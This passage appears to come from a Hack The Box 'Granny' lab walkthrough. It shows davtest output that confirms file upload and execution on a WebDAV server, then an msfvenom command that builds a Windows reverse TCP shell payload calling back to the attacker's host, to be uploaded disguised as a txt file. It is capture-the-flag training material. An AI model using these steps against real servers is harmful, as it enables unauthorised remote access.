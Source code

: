 ```sh
 Checking for test file execution
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.html
EXEC    jsp     FAIL
EXEC    pl      FAIL
EXEC    cfm     FAIL
EXEC    jhtml   FAIL
EXEC    php     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.txt

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.html
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.jsp
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.pl
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.cfm
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.jhtml
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.php
PUT File: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.txt
Executes: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.html
Executes: http://10.10.10.15/DavTestDir_bob0oIPR3EZcv/davtest_bob0oIPR3EZcv.txt
```
Using one of the successfully uploaded `txt` files, I will visit the path on my browser to see if it worked.

![Text Uploaded](/assets/img/granny/txt_upload.png)

Yeey!! now lets get that shell.

#### Shell With metasploit

I will create a  `payload` using `msfvenom` and upload it as a `txt` file

```sh
┌─[george@parrot]─[~/HTB/boxes/granny]
└──╼ $ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.7 LPORT=9001 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2886 bytes
```
Using `curl` I will upload the file file to the box as `shell.txt`.
